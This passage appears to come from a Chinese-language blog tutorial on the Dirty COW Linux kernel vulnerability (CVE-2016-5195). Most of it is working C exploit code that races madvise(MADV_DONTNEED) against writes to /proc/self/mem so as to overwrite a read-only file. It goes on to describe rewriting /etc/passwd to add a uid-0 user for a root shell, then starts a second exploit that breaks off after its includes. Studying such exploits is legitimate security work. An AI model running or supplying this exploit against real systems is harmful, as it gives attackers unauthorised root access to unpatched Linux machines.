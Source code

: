 ```c
    fstat(fk_fd, &fk_st); // get fake file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    fake_content = malloc(fk_st.st_size);
    read(fk_fd, fake_content, fk_st.st_size);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x100000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_content, fk_st.st_size);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x100000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}

```

### 提权

#### 一、新建 root 用户

我们可以通过修改 `/etc/passwd` 这个文件的方式向其中添加一个 uid 为 0 的新用户，之后再登入这个用户即可完成提权拿到 root shell，具体的构造过程就不在此赘叙了

exp 如下：

```c
/**
 * 
 * CVE-2016-5195
 * dirty C-O-W
 * exploit by arttnba3
 * 2021.5.24
 *  
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
```
